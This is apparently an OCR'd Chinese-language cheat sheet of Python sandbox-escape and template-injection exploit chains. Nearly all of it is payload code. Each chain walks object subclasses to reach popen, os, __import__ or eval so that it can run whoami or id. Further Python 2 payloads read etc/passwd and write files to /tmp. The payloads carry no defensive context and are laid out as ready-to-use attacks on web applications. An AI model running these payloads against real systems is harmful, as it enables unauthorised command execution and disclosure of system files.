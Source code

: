 

#### **利用链**

'popen' 对象通常是 Python 中的 subprocess 模块中的一个类或函数，用于执行外部命令并获取其输出。在这种情况下，'popen' 对象的作用是执行系统命令 `whoami` 并返回当前用户的用户名。

直接使用 popen（python2不行）

```python
os._wrap_close 类里有popen
​
"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__['popen']('whoami').read()
"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__.popen('whoami').read()
```

使用 os 下的 popen

```scss
含有 os 的基类都可以，如 linecache
​
"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['os'].popen('whoami').read()
```

使用**import**下的os（python2不行）

```markdown
可以使用 __import__ 的 os
​
"".__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__import__('os').popen('whoami').read()
```

**builtins**下的多个函数

```scss
__builtins__下有eval，__import__等的函数，可以利用此来执行命令
​
"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")
"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()
```

利用 python2 的 file 类读取文件

```python
在 python3 中 file 类被删除
​
# 读文件
[].__class__.__bases__[0].__subclasses__()[40]('etc/passwd').read()
[].__class__.__bases__[0].__subclasses__()[40]('etc/passwd').readlines()
# 写文件
"".__class__.__bases__[0].__bases__[0].__subclasses__()[40]('/tmp').write('test')
# python2的str类型不直接从属于属于基类，所以要两次 .__bases__
```
